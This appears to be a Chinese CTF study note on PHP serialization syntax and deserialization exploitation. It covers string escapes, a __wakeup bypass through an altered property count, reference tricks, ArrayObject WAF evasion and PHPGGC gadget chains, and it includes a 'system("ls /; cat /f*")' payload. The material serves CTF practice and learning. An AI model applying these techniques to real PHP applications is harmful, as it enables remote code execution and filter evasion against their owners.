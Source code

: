 # 介绍
	- 用一个字符串表示其他类型（数字，对象等）的数据
- # 结构
	- 语法
		- 对象：`O:<类名字的长度>:"<类的名字>":<属性的数量>:{<各个属性>}`
		- 字符串：`s:<字符串长度>:"<字符串内容>";`
			- 字符串内容不需要转义，PHP会根据前面的长度自动读取相应长度的字符串
	- 示例
		- 空格和换行是为了更加好读，请忽略空格换行和注释
		- ```php
		  O:1:"A":1:{
		      s:4:"aaaa"; // A的属性名：字符串"aaaa"
		      O:1:"B":1:{ // A的属性值：对象B
		          s:4:"bbbb"; // B的属性名：bbbb
		          s:5:"/flag"; // B的属性值：字符串"flag"
		      }
		  }
		  ```
- # 技巧
	- 字符串
		- 使用大写 S 可以自动转义`\61`等符号
			- 比如：`S:1:"\61"`就是字符串`"a"`
		- 可以试试通过改变字符串长度实现字符逃逸
	- 对象
		- unserialize()会把多余的字符串当垃圾处理，读取完后就会丢弃后面的字符
		- protected 变量
			- 会被反序列化成这样`S:7:"\00*\00aaaa";`
		- `O:1:"A":1:`也可以用`O:+1:"A":1:`和`O:1:"A":+1:`代替
		- 对象内可以用指针：`R:2;`指向第二个元素
		  id:: 6478aaed-0cfc-41e3-a12e-55de79af3104
			- 可以这样构造
				- ```php
				  $t = new test;
				  $t -> c = "system(\"ls /; cat /f*\");";
				  $t -> a = & $t -> b;
				  $s = serialize($t);
				  ```
		- `__wakeup`绕过：修改类的键数量
		  id:: 64f02a3a-500c-41de-80fa-f565b1030a3b
		  collapsed:: true
			- ```php
			  <?php
			  
			  class Test {
			      public $a;
			      function __wakeup() {
			          echo "wakeup";
			      }
			      function __destruct() {
			          echo "destruct";
			      }
			  }
			  
			  $t = new Test();
			  $t -> a = "114514";
			  $s = serialize($t);
			  $s = str_replace('"Test":1', '"Test":2', $s);
			  echo serialize($t);
			  $t2 = unserialize($s);
			  var_dump($t2);
			  ?>
			  
			  ```
				-
		- 快速反序列化：参考[[CTF/WP/数博会 贵阳杯]]
		  id:: 64b5744d-1d6c-43e5-95d5-2121b31d0d57
	- 自定义序列化对象在序列化后以C开头，[例题](((64b2aacc-598b-4be7-b7d4-48230820277e)))
	  id:: 64f02a3a-fbd3-41a2-90dd-34399046a38a
		- `ArrayObject`
		  id:: 6569d71e-f0f4-4d99-961c-e306b814b20e
			- 在PHP7及以下版本中其序列化后以`C`开头，在PHP8中`ArrayObject`序列化后仍然以O开头
			- ArrayObject序列化的格式中含有后方数据的字符数量，如果修改了其中的字符串则需要同时修改ArrayObject最前方的长度。
				- ```text
				  C:11:"ArrayObject":95:{x: ...省略
				    ^名字长度         ^ 后方的字符数量
				  ```
			- ```php
			  $o = 123123; // 这是原来的对象
			  $a = new ArrayObject([114 => 514]);
			  $a -> o = $o; // 把它塞进ArrayObject里
			  $o = $a; // 最后反序列化$a后其的开头就是C而不是O或者a，可以用来绕过WAF
			  ```
- # 工具
	- 可以使用[PHPGGC](https://github.com/ambionics/phpggc)自动构建ThinkPHP, Lavaral等的反序列化payload
- # 参考
	- [PHP 内置类的应用](https://www.cnblogs.com/iamstudy/articles/unserialize_in_php_inner_class.html#_label1_0)
- # 另见
	- [[CTF/PHP/原生类]]配合反序列化可以完成发送HTTP请求之类的操作